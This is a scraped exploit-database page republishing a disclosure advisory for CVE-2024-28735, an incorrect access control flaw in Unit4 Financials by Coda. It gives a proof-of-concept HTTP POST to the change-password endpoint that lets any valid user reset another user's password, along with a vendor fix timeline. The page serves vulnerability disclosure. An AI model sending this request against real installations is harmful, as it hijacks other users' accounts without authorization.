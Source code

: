 ```yaml
---
title: Financials By Coda Authorization Bypass exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177620&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-16
fetch_date: 2025-10-04T12:07:46.303119
---
```


# Financials By Coda Authorization Bypass exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Financials By Coda Authorization Bypass CVE-2024-28735

2024-03-15 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177620
# Vulnerability type: Incorrect Access Control
# Vendor: https://www.unit4.com/
# Product: Financials by Coda
# Product site: https://www.unit4.com/fr/products/financial-management-software
# Affected version: < 2023Q4
# Fixed version: 2023Q4
# Credit: Léo DRAGHI
# CVE: CVE-2024-28735

# PROOF OF CONCEPT
The "Change Password" feature can be abused in order to modify the password of any user of the application.
The only conditions for an attacker are to have the credentials of a valid account (regardless of the profile) and to know the username of the target.

POST /coda/rest/session/password HTTP/2
Host: <target>
<snip>

{
"user" : "<targeted_user>",
"password" : "<attacker_user_password>",
"company" : "<company>",
"newPassword" : "<new_password_for_targeted_user",
"tzOffset" :240
}

# TIMELINE
– 30/10/2023: Vulnerability found
– 02/11/2023: Vendor informed
– 05/12/2023: Vendor fixed the issue
– 14/03/2024: Public disclosure
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
